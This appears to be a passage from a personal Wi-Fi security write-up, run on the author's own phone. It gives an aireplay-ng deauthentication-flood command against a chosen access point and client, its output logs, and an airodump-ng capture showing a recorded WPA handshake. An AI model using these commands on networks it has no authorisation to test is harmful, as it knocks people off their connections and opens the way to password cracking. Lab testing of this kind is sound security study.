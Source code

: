 - In order to do so, use the command:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a <BSSID> -c <CLIENT_MAC> -D wlan0
    ```

  - Remove `-D` if the target network is 2.4GHz Network.

- I tested this on my mobile, and my mobile got disconnected from the network. It tried to reconnect to the network, but it failed to do so. It kept trying to reconnect for a while, but it failed to do so.

- Below are the logs:

    ```bash
    root@kali:~# aireplay-ng --deauth 100000000 -a WIFI_MAC -c MOBILE_MAC -D wlan0
    21:12:19  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [53|68 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:20  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|63 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    21:12:21  Sending 64 directed DeAuth (code 7). STMAC: [MOBILE_MAC] [ 0|64 ACKs]
    ```

- To confirm this we also run the `airodump-ng` command again to see how the packets are being lost, along with screenshots of the mobile trying to reconnect to the network:

    ```bash
    root@kali:~# airodump-ng --bssid WIFI_MAC --channel 36 wlan0

    CH 36 ][ Elapsed: 24 s ][ 2025-07-25 21:17 ][ WPA handshake: WIFI_MAC 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

    WIFI_MAC  -19  57      236       52    0  36  780   WPA2 CCMP   PSK  WIFI_NAME 

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

    WIFI_MAC  MOBILE_MAC  -19    6e- 1e   698     1102  EAPOL  WIFI_NAME     
    WIFI_MAC  DEVICE1_MAC  -55    6e- 6e     0       93                                 
    WIFI_MAC  DEVICE2_MAC  -28    6e-24      0       54 
    Quitting...
    ```
